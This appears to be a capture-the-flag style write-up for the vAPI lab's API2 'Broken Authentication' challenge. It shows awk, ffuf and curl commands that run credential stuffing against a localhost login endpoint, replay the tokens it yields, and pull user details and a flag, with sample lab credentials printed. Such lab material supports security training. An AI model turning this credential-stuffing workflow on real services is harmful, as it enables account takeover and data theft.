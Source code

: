 # Broken Authentication
> We don't seem to have credentials for this , How do we login? (There's something in the Resources Folder given to you )

# Tools Used:
```
GNU Awk 5.2.1
ffuf 2.1.0-dev
curl 8.8.0 (x86_64-pc-linux-gnu)
grep (GNU grep) 3.11
```

# User Login
## POST /vapi/api2/user/login

Create a emails.txt wordlist from the credential list provided.
```bash
awk -F"," '{print $1}' /home/kali/Desktop/labs/vapi/Resources/API2_CredentialStuffing/creds.csv > ~/Desktop/emails.txt
```

Create a pass.txt wordlist from the credential list provided.
```bash
awk -F"," '{print $2}' /home/kali/Desktop/labs/vapi/Resources/API2_CredentialStuffing/creds.csv > ~/Desktop/pass.txt
```

Pitchfork the credentials provided with FuFF.
```bash
ffuf -w /home/kali/Desktop/emails.txt:FUZZ1 -w /home/kali/Desktop/pass.txt:FUZZ2 -X POST -H "Content-Type: application/json" -d '{"email": "FUZZ1", "password": "FUZZ2"}' -u http://localhost/vapi/api2/user/login -fc 401 -mode pitchfork -v
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/vapi/api2/user/login
 :: Wordlist         : FUZZ1: /home/kali/Desktop/emails.txt
 :: Wordlist         : FUZZ2: /home/kali/Desktop/pass.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"email": "FUZZ1", "password": "FUZZ2"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 401
________________________________________________

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2208ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: savanna48@ortiz.com
    * FUZZ2: zTyBwV/9

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2187ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: hauck.aletha@yahoo.com
    * FUZZ2: kU-wDE7r

[Status: 200, Size: 89, Words: 1, Lines: 1, Duration: 2207ms]
| URL | http://localhost/vapi/api2/user/login
    * FUZZ1: harber.leif@beatty.info
    * FUZZ2: kU-wDE7r

:: Progress: [1000/1000] :: Job [1/1] :: 18 req/sec :: Duration: [0:00:55] :: Errors: 0 ::
```

Use any of the correct credentials to get a JSON response containing the Token.
```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"savanna48@ortiz.com\",\x0d\x0a\"password\": \"zTyBwV/9\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:09:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:09:12 GMT
Content-Type: application/json

{"success":"true","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB"}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"hauck.aletha@yahoo.com\",\x0d\x0a\"password\": \"kU-wDE7r\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:10:12 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:10:12 GMT
Content-Type: application/json

{"success":"true","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA"}
```

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Content-Type: application/json' \
    --data-binary $'{\x0d\x0a\"email\": \"harber.leif@beatty.info\",\x0d\x0a\"password\": \"kU-wDE7r\"\x0d\x0a}' \
    $'http://localhost/vapi/api2/user/login'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:10:51 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:10:51 GMT
Content-Type: application/json

{"success":"true","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi"}
```


As specified in the Postman Collection, the test script to be executed for the API2 User Login endpoint is used to derive the Token (Authorization-Token) by parsing the JSON, selecting the value of "token" key and updates it in the Postman Environment as api2_auth.
```js
var jsonData = JSON.parse(responseBody);
var api2_auth = jsonData.token;
console.log("API 2 Auth : "+api2_auth);
postman.setEnvironmentVariable("api2_auth",api2_auth);
```

We can manually derive the Authorization Token (Authorization-Token) of our fuzzed user(s) manually from the response(s):
```
Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB
```
```
1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA
```
```
sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi
```
- We will need any one of these Authorization Tokens for the "Get Details" endpoint

Get the Cross Site Request Forgery Token (XSRF-TOKEN)
```bash
curl -c - http://127.0.0.1/vapi/ -v --silent 2>&1 | grep -shoP '(?<=Set-Cookie: XSRF-TOKEN=).*?(?=;)'
```
```
eyJpdiI6IjRPYjBYbDh1aHNzMlpuZVpsQ0NkbXc9PSIsInZhbHVlIjoiNTBwRjJrWExlYkJjVFdRcEZ5NEQ5OCtoUFVnMCtvYk1hdE5OR0NBSXlJeWhuWG9jR2l4MWJJcGVxcTdWandUSGs3S21KU1dQcWZQUWZnZlZDWVBXYkpzV041anVHUk1EUHdtRUVBM21ETHd4OGxoS3A3YU1DdDNtRmxteElsbDQiLCJtYWMiOiI5ZWU2ZmI2Y2YwMzVkYjI1YzlhMzQ2MjYwMTA5NDg2MTFmOTJiNjI2NDljYzE0ZGQ1OGE1ZjRmZWE2YjM5MzdkIiwidGFnIjoiIn0%3D
```
- We will need this Cross Site Request Forgery Token for the "Get Details" endpoint

# Get Details
## GET /vapi/api2/user/details

Use any of the authorization token with the XSRF token to get the flag
```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:27:30 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:27:30 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: 1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:27:57 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:27:57 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -b $'XSRF-TOKEN=eyJpdiI6InVRcmlodGE0ZTJGdk0yT1o0cDIxZGc9PSIsInZhbHVlIjoiZGdBVEh0VG9sTzhVZnBpaml5ckFOaXQrT2krVTNNYlZvMHJtdmUyZGM1KzBaSG5VdVRhK3YwU3M2VGc4MzEvM2xubHY5WXkwRG53SWNwUi90eWVLWkJNeXpjMGVCbkhFMGxCV01FSjJzM050TElOd3FFSkoyVzVvYTdnT2dTM2MiLCJtYWMiOiJjNzBlN2IxODEyMzA4OTNiODI0ZTRiYWMzMzMxN2ZlZTRmYzliNTQ1ODRlZTM3NTE2NDYwN2RmZTBiMzJiYWU1IiwidGFnIjoiIn0%3D' \
    -H $'Authorization-Token: sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi' \
    $'http://localhost/vapi/api2/user/details'
```
```http
HTTP/1.1 200 OK
Host: localhost
Date: Tue, 25 Jun 2024 20:28:30 GMT
Connection: close
X-Powered-By: PHP/7.4.33
Cache-Control: no-cache, private
Date: Tue, 25 Jun 2024 20:28:30 GMT
Content-Type: application/json

[{"id":1,"email":"savanna48@ortiz.com","name":"Evelyn","token":"Fp0r1mty_gxK9DRZ5IUw3sX2enQ6rau68M6YGyoqR3XoBG13wtSbvmdaK5CB","address":"10th Downing","city":"Mesport","country":"USA"},{"id":2,"email":"hauck.aletha@yahoo.com","name":"Tara","token":"1Nkoz6quzJiis1SEonJeSxwkXTzSzcULofbL9O7KPz6_sKGkUcQDzoNfI5aA","address":"flag{api2_6bf2beda61e2a1ab2d0a}","city":"Delhi","country":"India"},{"id":3,"email":"harber.leif@beatty.info","name":"Joyce","token":"sLqs17RjmdlWoBP2ONdAPP8WtIVNwlyz_qzLwhmJGboWD_asFICYggcE3bPi","address":"San Jose","city":"California","country":"USA"}]
```

API2 Flag
```
flag{api2_6bf2beda61e2a1ab2d0a}
```

References:
https://owasp.org/API-Security/editions/2023/en/0xa2-broken-authentication/
https://owasp.org/API-Security/editions/2019/en/0xa2-broken-user-authentication/
